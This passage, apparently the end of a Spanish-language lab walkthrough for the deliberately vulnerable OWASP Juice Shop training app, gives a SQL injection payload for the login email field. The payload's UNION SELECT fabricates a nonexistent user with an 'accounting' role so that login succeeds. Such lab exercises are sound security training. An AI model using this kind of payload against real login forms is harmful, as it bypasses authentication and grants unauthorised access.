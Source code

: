 
El ataque consiste en preparar una ***UNION SELECT*** de forma que la consulta original no devuelva registros y que la UNION entregue un recordset de un usuario inexistente. De esta forma, volvemos a intentar el login y, en el campo ***email*** escribimos.
(Nota: para el password puedes poner lo que quieras)
```
' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'este_usuario_no_existe@este_dominio_tampoco.null' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16 14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--
```

Haciendo clic en el icono del carrito, podrás comprobar que la aplicación te ha logado con un usuario que no existe.

![este_usuario_no_existe](../img/lab-25-D/202211252003.png)


***FIN DEL LABORATORIO***

https://pwning.owasp-juice.shop/part2/injection.html
https://pwning.owasp-juice.shop/appendix/solutions.html







